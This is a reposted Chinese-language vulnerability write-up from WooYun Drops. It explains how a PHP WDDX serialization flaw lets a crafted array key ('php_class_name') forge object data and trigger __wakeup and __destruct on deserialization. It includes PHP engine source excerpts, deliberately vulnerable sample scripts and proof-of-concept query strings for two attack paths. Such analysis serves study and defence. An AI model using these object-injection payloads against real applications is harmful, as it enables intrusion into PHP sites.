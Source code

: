 # PHP WDDX Serializier Data Injection Vulnerability

2014/11/14 16:38 | [Ryat](http://drops.wooyun.org/author/Ryat "由 Ryat 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

> PHP 在把数组序列化为 WDDX 结构的过程中，没有对数组的键名严格限制，导致可以伪造对象的 WDDX 结构。

## i 序列化对象

* * *

PHP 在把对象序列化为 WDDX 结构时，会做如下处理：

```
static void php_wddx_serialize_object(wddx_packet *packet, zval *obj)
...
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
        snprintf(tmp_buf, WDDX_BUF_LEN, WDDX_VAR_S, PHP_CLASS_NAME_VAR);
        php_wddx_add_chunk(packet, tmp_buf);
        php_wddx_add_chunk_static(packet, WDDX_STRING_S);
        php_wddx_add_chunk_ex(packet, class_name->val, class_name->len);
        php_wddx_add_chunk_static(packet, WDDX_STRING_E);
        php_wddx_add_chunk_static(packet, WDDX_VAR_E);
}

```

比如下面代码中的变量 $obj：

```
class ryat {
    var $hi;
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi, "\n";
    }
}

$obj = new ryat();
$obj->hi = 'ryat';

var_dump(wddx_serialize_value($obj));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket> 
```

## ii 序列化数组

* * *

PHP 把数组序列化为 WDDX 结构时，会做如下处理：

```
static void php_wddx_serialize_array(wddx_packet *packet, zval *arr)
{
...
    target_hash = HASH_OF(arr);
    ZEND_HASH_FOREACH_KEY(target_hash, idx, key) {
        if (key) {
            is_struct = 1;
            break;
        }

        if (idx != ind) {
            is_struct = 1;
            break;
        }
        ind++;
    } ZEND_HASH_FOREACH_END();

    if (is_struct) {
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
    } else {
        snprintf(tmp_buf, sizeof(tmp_buf), WDDX_ARRAY_S, zend_hash_num_elements(target_hash));
        php_wddx_add_chunk(packet, tmp_buf);
    }

    ZEND_HASH_FOREACH_KEY_VAL(target_hash, idx, key, ent) {
        if (ent == arr) {
            continue;
        }

        if (is_struct) {
            if (key) {
                php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
            } else {
                key = zend_long_to_str(idx);
                php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
                zend_string_release(key);
            }
        } else {
            php_wddx_serialize_var(packet, ent, NULL TSRMLS_CC);
        }
    } ZEND_HASH_FOREACH_END();

    if (is_struct) {
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_E);
    } else {
        php_wddx_add_chunk_static(packet, WDDX_ARRAY_E);
    }
}
...
void php_wddx_serialize_var(wddx_packet *packet, zval *var, zend_string *name TSRMLS_DC)
{
...
    if (name) {
        char *tmp_buf;
        zend_string *name_esc;

        name_esc = php_escape_html_entities(name->val, name->len, 0, ENT_QUOTES, NULL TSRMLS_CC);
        tmp_buf = emalloc(name_esc->len + sizeof(WDDX_VAR_S));
        snprintf(tmp_buf, name_esc->len + sizeof(WDDX_VAR_S), WDDX_VAR_S, name_esc->val);
        php_wddx_add_chunk(packet, tmp_buf);
        efree(tmp_buf);
        zend_string_release(name_esc);
    }

```

从上面的代码可以看到，数组序列化后的 WDDX 结构主要分为两种，一种是没有指定键名的数组的处理，比如下面代码中的变量 $arr：

```
$arr = array('hi', 'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><array length='2'><string>hi</string><string>ryat</string></array></data></wddxPacket> 
```

另一种则是对指定键名的数组的处理，比如下面代码中的变量 $arr：

```
$arr = array('hi'=>'hi', 'ryat'=>'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='hi'><string>hi</string></var><var name='ryat'><string>ryat</string></var></struct></data></wddxPacket> 
```

## iii 伪造对象的 WDDX 结构

* * *

通过上面的分析，简单了解 WDDX 结构存储 PHP 数组和对象的具体格式，对象的存储格式和指定键名的数组的存储格式非常接近，区别只在于，对象的存储格式多了对类名的存储：

```
<var name='php_class_name'><string>ryat</string></var> 
```

PHP 在把数组序列化 WDDX 结构过程中，仅仅调用了 php_escape_html_entities() 函数处理，然后直接构造 WDDX_VAR_S：

```
#define WDDX_VAR_S              "<var name='%s'>" 
```

那么如果数组中存在一个值为 php_class_name 的键名，就可以构造出：

```
<var name='php_class_name'><string>ryat</string></var> 
```

这时序列化的 WDDX 结构就和对象的一样了，如下面代码中的变量 $arr：

```
$arr = array('php_class_name'=>'ryat', 'hi'=>'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket> 
```

可以看到，序列化的 WDDX 结构和第一个例子中的 $obj 对象序列化的 WDDX 结构是一样的，也就说，通过一个特殊的数组伪造了一个对象的 WDDX 结构：）

## iv 安全隐患

* * *

PHP 反序列化 WDDX 结构的处理过程类似于 unserialize() 函数，通过对特定的 WDDX 结构反序列化，可以生成一个对象，并执行类的 __wakeup() 方法（如果存在的话），在对象被销毁或者脚本执行结束时会执行类的 __destruct() 方法（如果存在的话），那么安全隐患随之而来。而比 unserialize() 函数更危险的是，反序列化过程和序列化过程都可能存在安全问题：）

### i) 利用 wddx_deserialize() 函数

```
class ryat {
    var $hi;
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi, "\n";
    }
}

wddx_deserialize(wddx_serialize_value($_GET['arr']);

```

通过下面的方式，可以成功执行 __wakeup() 方法和 __destruct() 方法：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat 
```

### ii) 利用 $_SESSION 进行序列化和反序列化

PHP 在存储和读取 $_SESSION 时会对数据进行序列化和反序列化，默认情况下与 serialize() 函数和 unserialize() 函数的处理方式相同，但是 PHP 提供了一个 session.serialize_handler 配置选项，可以使用 WDDX 格式进行序列化和反序列化：）

```
ini_set('session.serialize_handler', 'wddx');
session_start();

$_SESSION['arr'] = $_GET['arr'];

```

通过下面的方式，就可以伪造成对象的 WDDX 结构：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat 
```

from:[`www.80vul.com/pch/pch-014.txt`](http://www.80vul.com/pch/pch-014.txt)

版权声明：未经授权禁止转载 [Ryat](http://drops.wooyun.org/author/Ryat "由 Ryat 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](http://drops.wooyun.org/tips/3909)
*   [理解 php 对象注入](http://drops.wooyun.org/papers/4820)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)
*   [PHP 漏洞挖掘思路+实例](http://drops.wooyun.org/tips/838)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)
*   [SQL Injection via DNS](http://drops.wooyun.org/tips/4605)